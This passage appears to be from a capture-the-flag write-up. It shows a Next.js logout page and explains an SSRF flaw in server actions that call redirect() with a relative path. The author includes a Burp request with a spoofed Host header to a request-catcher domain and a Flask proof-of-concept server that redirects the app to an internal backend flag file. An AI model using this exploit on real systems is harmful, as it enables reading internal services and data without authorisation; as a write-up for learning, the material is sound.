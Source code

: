 ```js
import Link from "next/link";
import { redirect } from "next/navigation";
import { signOut } from "@/auth";

export default function Page() {
  return (
    <>
      <h1 className="text-2xl font-bold">Log out</h1>
      <p>Are you sure you want to log out?</p>
      <Link href="/admin">
        Go back
      </Link>
      <form
        action={async () => {
          "use server";
          await signOut({ redirect: false });
          redirect("/login");
        }}
      >
        <button type="submit">Log out</button>
      </form>
    </>
  )
}
```

It looks vulnerable to me! It's using server actions and calls `redirect()` with a relative path. To test, I crafted a request with Burpsuite:

```
POST /logout HTTP/1.1
Host: jijjoji.requestcatcher.com
Content-Length: 4
Next-Action: c3a144622dd5b5046f1ccb6007fea3f3710057de
Connection: close

{}
```

And caught the request! So we have now confirmed the vulnerability, let's exploit it. I used the PoC script from Assetnote:

```python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://backend/flag.txt')
```

